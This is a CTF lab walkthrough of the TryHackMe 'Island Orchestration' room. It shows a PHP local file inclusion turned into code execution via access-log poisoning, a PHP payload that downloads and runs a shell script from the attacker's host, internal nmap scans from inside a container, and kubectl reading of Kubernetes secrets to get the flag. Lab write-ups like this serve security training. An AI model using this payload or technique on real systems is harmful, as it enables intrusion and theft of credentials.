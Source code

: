 ```yaml
---
title: TryHackMe - Island Orchestration - Walkthrough
tags: tryhackme kubernetes web-security lfi container-security kubectl ctf hacking penetration-testing linux docker reverse-shell cybersecurity ethical-hacking
---
```


# Description

Room Link: [Island Orchestration](https://tryhackme.com/room/islandorchestration)

![2022-06-25_17-29](https://user-images.githubusercontent.com/84577967/175782516-de2830f0-1a00-4e41-bf61-4c8312532785.png)

Only one flag to catch ... !

# Recon

Using `nmap`, we can find that there are two open ports.

```
Nmap scan report for 10.10.160.23
Host is up, received reset ttl 255 (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Port 80

We have a PHP webapp on port 80

![2022-06-25_17-37](https://user-images.githubusercontent.com/84577967/175782766-7c4176c0-0e58-448a-8d8c-32181f7dc4c3.png)

![image](https://user-images.githubusercontent.com/84577967/175782758-ed3c0642-5acc-4fba-92ab-e60e28d9f95d.png)

It seems that we are dealing with a Local File Inclusion (LFI) vulnerability. LFI vulnerabilities allow an attacker to include local files on the target system in HTTP requests and access their contents. There are many resources available online, that can help with identifying and exploiting LFI vulnerabilities.

![image](https://user-images.githubusercontent.com/84577967/175782872-51eb640f-22f2-4ef2-afd7-cba363eacd24.png)

To get a reverse shell on this web application, we can try including the Apache2 `access_log` or `access.log` file. I actually ended up by finding the location of this file by reading the `/proc/self/fd/6` file.

![image](https://user-images.githubusercontent.com/84577967/175782863-b86ecd11-9215-4605-a7fd-dcb7f83b99a9.png)

I injected a payload into the `User-Agent` value. Some PHP web applications use functions such as `file_get_contents` or `fopen` to include/read external files, but these functions do not execute PHP code.
Only functions like `include`, `require`, `include_once`, and `require_once` can execute PHP codes.

![image](https://user-images.githubusercontent.com/84577967/175782913-8fc573d0-d623-4322-b454-5186f3efa5c6.png)

Anyway, It seems that we have successfully gained Remote Code Execution (RCE) :smile:.

![image](https://user-images.githubusercontent.com/84577967/175782954-55971df9-f2fc-46b9-84be-07587472fca7.png)

To get a reverse shell, I injected this payload:

![image](https://user-images.githubusercontent.com/84577967/175783019-f7aa1a23-5564-4ae1-a410-1ba2ed0a3dbd.png)

```php
<?php file_put_contents('/tmp/s.sh',file_get_contents('http://10.8.48.23:8001/s.sh'),FILE_APPEND);system('bash /tmp/s.sh');?>
```

![image](https://user-images.githubusercontent.com/84577967/175783041-e872251e-42a6-4131-909c-1c70cb295ac6.png)

I wasn't able to find some linux binaries such `ifconfig`, `curl` ...

![image](https://user-images.githubusercontent.com/84577967/175783088-70c25bb8-2acb-40bd-b9c8-3231eaf41ffb.png)

I immediately suspected that we were inside a Docker container or a similar environment. In such cases, I often use a repository of Linux static binaries that I have collected
[linux-static-binaries](https://github.com/ab2pentest/linux-static-binaries).

So let's upload `ifconfig` and see what we have here

![image](https://user-images.githubusercontent.com/84577967/175783182-0f89544d-249d-4008-81ad-c00d15955af8.png)

It looks like our suspicion was correct and we are indeed inside a Docker container. To see if there are any other containers on the system, we can use this nmap static binary [nmap-static-binaries](https://github.com/opsec-infosec/nmap-static-binaries).

After uploading it

```bash
./nmap 172.17.0.0/24 -vvv
```

output:

```
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up, received conn-refused (0.00027s latency).
Scanned at 2022-06-25 15:38:09 UTC for 4s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
8443/tcp  open     https-alt syn-ack
30000/tcp filtered ndmps     no-response

Nmap scan report for coredns-78fcd69978-ttkch (172.17.0.2)
Host is up, received conn-refused (0.00029s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT     STATE SERVICE     REASON
53/tcp   open  domain      syn-ack
8080/tcp open  http-proxy  syn-ack
8181/tcp open  intermapper syn-ack

Nmap scan report for islands-7655b7749f-zvq52 (172.17.0.3)
Host is up, received syn-ack (0.00030s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

There are 3 hosts

### 172.17.0.1

From the ports `10250`, `10256` and `8443` looks like a kubernetes server

```bash
./nmap 172.17.0.1 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:39:27 UTC for 3s
Not shown: 65528 closed ports
Reason: 65528 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
2376/tcp  open     docker    syn-ack
8443/tcp  open     https-alt syn-ack
10249/tcp open     unknown   syn-ack
10250/tcp open     unknown   syn-ack
10256/tcp open     unknown   syn-ack
30000/tcp filtered ndmps     no-response
```

### 172.17.0.2

I didn't know what this host was doing ...

```bash
./nmap -sC -sV 172.17.0.2 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:38:54 UTC for 16s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE SERVICE    REASON  VERSION
53/tcp   open  tcpwrapped syn-ack
8080/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8181/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
9153/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

## Kubernetes

One of the first things I usually do is download `kubectl`, which is a command-line tool for controlling Kubernetes clusters.

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Let's try to list pods

```bash
./kubectl get pods
```

![image](https://user-images.githubusercontent.com/84577967/175783551-9ba5d6ff-a7e9-41dc-8972-a77174a1bf4f.png)

It seems that the user does not have the necessary permissions to list pods, so let's inspect authorization first 

![image](https://user-images.githubusercontent.com/84577967/175783621-a93738c1-3c71-4fe3-940e-5446b0d20336.png)

We can use the following command to see what our current user is authorized to do

```
./kubectl auth can-i --list
```

![image](https://user-images.githubusercontent.com/84577967/175783658-e9fe2bfa-96ab-4bc6-a996-89701ac02ff4.png)

There is a resource called `secrets` that we can examine. Secrets in Kubernetes are objects that contain sensitive data, such as passwords, OAuth tokens, and SSH keys. By checking the secrets resource, we may be able to find sensitive information that could be useful for accessing other resources or escalating privileges.

```bash
./kubectl get secrets
```

![image](https://user-images.githubusercontent.com/84577967/175783710-ada11fa5-38ff-47c3-b1c6-386b2156e251.png)

It seems that we are making progress and getting closer to finding the flag ...

```bash
./kubectl describe secrets/flag
```

![image](https://user-images.githubusercontent.com/84577967/175783748-91ab5b9e-892f-4a93-8302-32a50f785761.png)


```bash
./kubectl describe secrets/flag
```

# Flag

```bash
./kubectl get secret flag -o=json
```

![image](https://user-images.githubusercontent.com/84577967/177194290-3569b03c-6b18-4ee2-920b-c594ddec82c3.png)

We are able to obtain the flag by base64 decoding the value of the flag.
